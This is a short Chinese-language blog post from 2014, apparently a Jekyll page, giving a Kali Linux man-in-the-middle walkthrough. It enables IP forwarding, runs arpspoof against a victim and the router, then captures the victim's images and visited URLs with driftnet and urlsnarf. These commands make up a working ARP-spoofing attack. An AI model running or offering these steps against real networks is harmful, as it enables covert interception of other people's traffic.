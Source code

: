 ```yaml
---
layout: post
title: Kali Linux Man in the Middle Attack
date: 2014-10-18 15:27:31
disqus: y
---
```


> 使用的是kali linux 发行版

## 开启 Port Frowarding 

把` /proc/sys/net/ipv4/ip_forward` 的值从0改到1

```
# echo '1' > /proc/sys/net/ipv4/ip_forward
```

开启 Port Forwrding 目的是我们机器类似路由的功能, 劫持数据包，处理后, 并转发出去

## 过程 

被攻击者ip:   `192.168.1.3`  
攻击者ip：    `192.168.1.9`  
路由器ip:     `192.168.1.1`  
网卡是:       `wlan0`  

### 0x1

在被攻击者和路由之间设置arp 欺骗

```
# arpspoof -i wlan0 -t 192.168.1.3 192.168.1.1
```

### 0x2

路由捕获的包转发给被攻击者

```
# arpspoof -i wlan0 -t 192.168.1.1 192.168.1.3
```

![arpspoof](http://lidashuang.u.qiniudn.com/2014-10-18%2021%3A49%3A19%E7%9A%84%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)

经过这两步，数据包就会经过我们的机器(192.168.1.9)

可以使用`driftnet`这个工具抓取经过网卡的数据

```
# driftnet -i wlan0
```

效果: 

![driftnet](http://lidashuang.u.qiniudn.com/2014-10-18%2021%3A53%3A02%E7%9A%84%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)


使用 `urlsnarf` 这个工具可以抓去被攻击者访问url

```
# urlsnarf -i wlan0
```
